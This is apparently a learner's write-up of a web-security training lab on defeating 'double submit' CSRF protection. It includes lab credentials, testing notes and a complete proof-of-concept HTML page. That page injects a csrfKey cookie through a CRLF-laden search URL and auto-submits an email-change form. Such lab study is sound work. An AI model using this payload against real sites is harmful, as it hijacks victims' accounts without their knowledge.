 # CSRF where token is duplicated in cookie
- lab's email change functionality is vulnerable to CSRF
- attempts to use the insecure "double submit" CSRF prevention technique
- credentials: wiener:peter
# Goal
- use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
# Solving the Lab 
- log in and change email
- for CSRF To be possibel
  - Certain Action : change email
  - cookie based session handeling : session cookie
  - no unpredictablle request parameters 
- Testing For CSRF
  - Remove CSRF Token and see if application accepts it 
  - change request method from post to get
  - see if csrf token is tied to user session
- Testing csrf token and csrf keys
  - check if csrf token is tied to csrf key
    - submit an invalid csrf token
    - submit valid csrf token from a valid user
  - submit avalid csrf token and csrf cookie from another user
  - check if the two are equel and if so change value anything but same in both :YES
  - so we construct a payload that inject in header and do what we want
  ```
  <html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0a0005046ef4b58183cff3004f0029.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="tesdsdst&#64;mail&#46;com" />
      <input type="hidden" name="csrf" value="5iydd3rU2CtyK4R2FUlW9Dt66OVwSJhI" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a0a0005046ef4b58183cff3004f0029.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=uLf64t4oWx9qapcNNDPFASgWa7lD8n11%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
  ```
- we send payload to exploit server and press send to victim  > solved the Lab
